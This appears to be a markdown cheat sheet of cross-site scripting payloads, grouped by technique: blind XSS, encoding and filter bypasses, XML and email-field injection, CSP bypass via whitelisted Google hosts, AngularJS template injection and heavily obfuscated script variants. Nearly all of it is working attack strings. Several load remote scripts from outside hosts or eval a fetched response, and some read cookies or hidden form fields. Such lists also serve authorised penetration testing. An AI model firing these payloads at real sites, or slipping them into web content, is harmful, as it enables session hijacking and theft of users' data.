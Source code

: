 > Blind XSS payload XXShunter

```"><script src=https://a007.xss.ht></script>```

> ASP filter bypass

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

> Double URL encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

> XSS in XML

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>```

> Where :// is required after protocol

```javascript://%250aalert(1)```

> XSS in email addresses

```"\"><s>test"@gmail.com```
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```

 ```<body onpageshow=alert(1)>```

```<style onload=alert(1)>```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<d3"<"/onclick="1>[confirm``]"<">z```

```&lt;script&gt;confirm(1)&lt;/script&gt;```

> GET Hidden Fields data

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS```

```<svg/x=">"/onload=confirm()//```

```<sCript x>(((confirm)))``</scRipt x>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<script/x>alert(1)</script/x>```

```"><!--<iMg sRc=--><img src=x oNERror=(prompt)`1` x>"```

```"><deTails oNToggle=confi\u0072m(1)>"```

> Get response back to server

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

> CSP bypass if http://ajax.googleapis.com is whitelisted

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>```

```<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>```

```<script src=data:,alert(1)>```


> Angular JS XSS

```{{constructor.constructor('alert(1)')()}}```

```<x ng-app>{{constructor.constructor('alert(1)')()}} ```

> Upper Case

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

 ```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```
 
```data:text/html,<svg onload=alert(1)>```

> Shortest payloads injection

```<a/href=//0>```
```<script src=//14.rs>```

> Before form Tags

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```foobar"/%0D<body='X' onmouseover=setInterval`alert\x28&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;\x29`//```

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```<script>([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)</script>```

```<script>([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')``</script>```

```<script>this[Object["keys"](this)[6]](1)</script>```

> Space and slash not working

```<svgonload=alert(1)>```

```<svG oNLoad=confirm&#x28;1&#x29>```

```<xss/ondblclick=[cookie].some(alert)>XSS```

>Hidden field XSS

```"accesskey="X" onclick=alert(1) ```
